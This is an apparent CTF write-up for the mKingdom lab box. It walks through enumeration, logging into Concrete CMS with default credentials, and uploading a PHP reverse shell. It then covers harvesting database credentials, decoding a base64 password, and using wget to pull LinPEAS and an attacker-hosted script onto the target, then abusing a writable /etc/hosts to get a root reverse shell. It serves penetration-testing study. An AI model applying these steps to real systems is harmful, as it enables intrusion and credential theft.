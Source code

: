 # CTF Writeup: mKingdom

---

- Step 1: Checked out website --> not available, made nmap scan --> port 85 available
- Step 2: website available under port 85, but didn't find anything in the source code or on the website itself.
- Step 3: Captured website request on burp and tried to gather any information, but also didn't work
- Step 4: Continued with Enumeration by running gobuster and found hidden dir --> /app --> went on website
and found jump button --> clicked on it and got forwarded to /app/castle, new website.
- Step 5: After falling for a lot of rabbit holes, I gained access onto the login page of /castle by just typing
default creds in "admin" & "password"
- Step 6: After some time I found out a possible option to gain a reverse shell, we are able to set allowed file
types and also upload those files into the web-server.
- Step 7: Found Concrete CMS Rev Shell Exploit for File Manager, Generated php rev shell script, with hack-tools
extension.
- Step 8: stored in a file and uploaded it to web-server, created listener and executed file. --> gained rev shell
- Step 9: checked privileges, almost no access to anything and no tty, so I checked out 
var/www/html/app/castle/application/config/database.php and found toad's creds
- Step 10: couldn't made "su", so I had to stabilize shell, after stabilizing it with tty commands in hack-tools extension
gained access to user toad
- Step 11: found PWD_token and decoded the base64 string and found password for mario --> logged in with su mario
- Step 12: on home/desktop I found the user flag, since I couldn't cat it. I created a user.txt file in /tmp and
cp'd the userflag into /tmp/user.txt and made cat --> gained userflag
- Step 13: Since I cannot access root priv's, I tried to use LinPEAS to coordinate my decisions.
--> chmod +x linpeas.sh
- Step 14: Made an python server on port 80 "python3 -m http.server 80" and made locate linpeas.sh and cp'd path
- Step 15: after made request from web server to my machine ip to receive linpeas.sh 
--> "wget http://target_ip/linpeas.sh" --> result is 200 went through and got saved within /tmp directory
- Step 16: made chmod +x linpeas.sh, because I didn't have execute privs -> made ./linpeas.sh
- Step 17: LinPeas didn't give me any good tips, so I searched all dir's and files, found that /etc/hosts is 
edtiable & there is an script getting loaded into mkingdom.thm domain. Looked up for a tcp reverse shell, created 
listener on 4242, wget http://my ip/my script into target web server. hosted an python3 server on port 85,
and executed script on target web server, gained reverse shell on my listener + root privs. cd /root --> cat root.txt
gained root flag.

---

## Key Learnings

- This CTF was the hardest I've ever done, because I wasted so much time by falling in rabbitholes and had to look
up tutorials a lot.
- Increased linux cli knowledge --> echo "String-value" | base64 -d, wget
- Increased LinPeas Knowledge
- Increased Shell Knowledge --> How to improve shell stabilization and which benefits come with it.
- Gained Hack-Tools Extension
- Gained Knowledge about in which dir's I should look into Real world Scenarios --> OSCP --> www, databases (e.G php)

